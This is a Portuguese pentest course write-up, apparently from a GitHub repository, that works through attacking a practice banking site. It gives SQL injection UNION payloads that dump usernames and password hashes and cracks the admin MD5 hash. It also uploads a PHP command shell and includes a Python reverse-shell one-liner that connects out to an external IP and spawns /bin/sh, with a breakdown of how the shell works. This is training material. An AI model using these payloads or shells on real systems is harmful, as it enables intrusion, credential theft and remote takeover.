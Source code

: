 # Introdução ao Hacking e Pentest

Estas são as anotações das partes práticas do curso [Introdução ao Hacking e Pentest](https://solyd.com.br/ead/course/introducao-ao-hacking-e-pentest/) oferecido pela Solyd. Todos os passos são executados no site desenvolvido exclusivamente para isso: http://www.bancocn.com.

## Exploração

Nesta etapa o mais importante que temos a descobrir é:
- Se usarmos <code>'</code> como id no URL, recebemos um erro de sintaxe do SQL, então podemos tentar explorar vulnerabilidades do SQL;
- Pelo arquivo /robots.txt, descobrimos a existência da página /admin.

## SQL Injection

Vamos descobrir quantas colunas tem usando o comando SQL ORDER BY Keyword, ele é usado para ordenar os resultados em ordem ascendente ou descendente de acordo com os valores de determinada coluna.
Então por exemplo se queremos ordenar o resultado o resultado pelos valores da coluna 1 e comentar o que viria depois do código usando --, então vamos passar <code>1 ORDER BY 1--</code>. Vamos inserir os comandos sempre após <code>www.bancocn.com/cat.php?id=</code>.
<pre> 
1 ORDER BY 1-- :ok
1 ORDER BY 2-- :ok
1 ORDER BY 3-- :ok
1 ORDER BY 4-- : Unknown column '4' in 'order clause'
</pre>

Então agora sabemos que temos 3 colunas. O comando UNION é usado para combinar o resultados de múltiplos SELECTS, então vamos adicionar uma linha ao resultado.  Vai ser adicionado no final do resultado, mas ele lê o primeiro resultado, então vamos usar o sinal negativo para inverter a ordem dos resultados, por exemplo: <code>-1 UNION SELECT 1,2,3</code>. Podemos usar então database() para obtermos o nome do banco de dados onde as informações são exibidas na tela: 

<code>-1 UNION SELECT 1,2,database()</code>.

Com isso sabemos o nome do nosso banco de dados: bancocn. Para sabermos todas tabelas do banco de dados podemos usar: 

<code>-1 UNION SELECT 1,2, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="bancocn"</code>

Basicamente, estamos inserindo uma linha onde as duas primeiras colunas são 1 e 2 respectivamente, e o terceiro que é o que será exibido na tela, então concatenamos o resultado, que é a busca na tabela tables no banco de dados information_schema que pertence ao banco de dados bancocn, de acordo com o valor na coluna table_schema.

Obtemos agora os nomes das tabelas do nosso banco de dados: categories,pictures,stats,users. Então com os nomes das tabelas escolhemos ver melhor a tabela users, usando um código parecido:

<code>-1 UNION SELECT 1,2, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="bancocn" AND table_name="users"</code>

As colunas são: id,login,password. Então agora olhamos a tabela das colunas e olhamos onde o banco de dados é bancocn e a tabela é users.

Então podemos agora simplesmente exibir, o login senha:
<code>-1 UNION SELECT 1,2, login FROM bancocn.users</code>
<code>-1 UNION SELECT 1,2, password FROM bancocn.users</code>

Obtemos então o usuário (admin) e a senha (7b71be0e85318117d2e514ce2a2e222c).

Testamos uma criptografia padrão (MD5), usando o [MD5 Decrypter](https://www.md5online.org/) desciptografamos a senha: senhafoda e conseguimos acesso ao painel de admin descoberto anteriormente.

## Shell reversa

Olhando a estrutura dos endereços das imagens carregadas, podemos acessar o diretório dos arquivos /admin/uploads. Lá podemos então abrir um arquivo com extensão php que enviemos ao servidor.

Vamos carregar um arquivo PHP (terminal.php5) que recebe comandos e executa no terminal, por exemplo para rodar um <code>ls </code> poderíamos usar:
<code>?comando=ls</code>

Em complemento ao endereço do nosso arquivo:/admin/uploads/terminal.php5. O que queremos rodar no terminal, é uma shell reversa, uma versão em python pode ser retirada do [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

<code>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("179.189.157.42",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' </code>

Substituindo o IP pelo endereço da nossa máquina, para isso podemos consultar o [What is my IP](https://whatismyip.com.br/) por exemplo. Vamos utilizar o [netcat](https://eternallybored.org/misc/netcat/) para windows disponibilizado por Jernej Simoncic.

# Bônus: construindo a Shell Reversa

Vamos olhar trecho a trecho o código em python que passamos em uma linha para rodar nossa shell reversa. Criamos um script python chamado (clienteTCP)[https://github.com/SapoGitHub/Repositorio-Geral/blob/master/Introdu%C3%A7%C3%A3o%20ao%20Hacking%20e%20Pentest/clienteTCP.py] melhor comentado para esta tarefa.

Primeiro, soquete é o ponto-final de um fluxo de comunicação entre 2 aplicativos através da rede. Portanto para 2 aplicativos temos 2 pontos finais, chamados normalmente de
- Servidor: considerado a máquina 'principal', ela envia os comandos ;
- Cliente: responsável por se conectar no servidor e receber e executa comandos.

Queremos então criarmos um cliente para rodar em nossa máquina. Para isso precisamos definir algumas coisas:
- A representação do endereço (Família de protocolo): Usamos o AF_INET (domínio da internet) é uma família de endereços onde usamos um par de valores: (servidor, porta), onde:
	- servidor: é um hostname de um domínio de internet (daring.cwi.nl) ou um endereço IP;
	- porta: um inteiro.
- Tipo: especifica a semântica da comunicação e usamos o SOCK_STREAM que fornece uma conexão sequencial, confiável e bidirecional. Ela indica que nosso soquete vai ser do tipo TCP.

Definido o protocolo que vamos utilizar para o envio de informações e como vamos representar o endereço, podemos então fornecer o IP e porta para se conectar ao nosso servidor.

```
soquete=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  #Configura o socket
soquete.connect(("127.0.0.1",6666))                       #Conecta em nosso servidor
```

O próximo passo é lidarmos com os descritores de arquivos, isto é um indicador abstrato para acessar um arquivo. Cada processo Unix tem três descritores de arquivos padrões, representados por inteiros:
- 0: Entrada padrão;
- 1: Saída padrão;
- 2: Erro padrão.

Então o nosso próximo passo, é pegarmos o descritor de arquivo do soquete, fazemos isso com o comando:

<code>das=soquete.fileno()                                        #Retorna o descritor do soquete</code>

E fazermos os descritores de arquivo padrões indicarem para o mesmo lugar, ou seja, o soquete:
```
os.dup2(das,0)						#Duplica o descritor 'das' para 0                                    
os.dup2(das,1)						#Duplica o descritor 'das' para 1
os.dup2(das,2)						#Duplica o descritor 'das' para 2
```

Agora então, as entradas e saídas de nosso processo serão recebidas e enviadas através do nosso soquete, ou seja a comunicação é feita com nosso servidor. Por fim, nos falta executar de fato a shell(<code>/bin/sh</code>) apenas:

<code>subprocess.call(["/bin/sh"])			#Executamos a shell</code>

Ainda podemos usar o argumento <code>-i</code> para forar a shell a rodar de interativo. Nesse caso usaríamos <code>subprocess.call(["/bin/sh","-i"])</code>. 
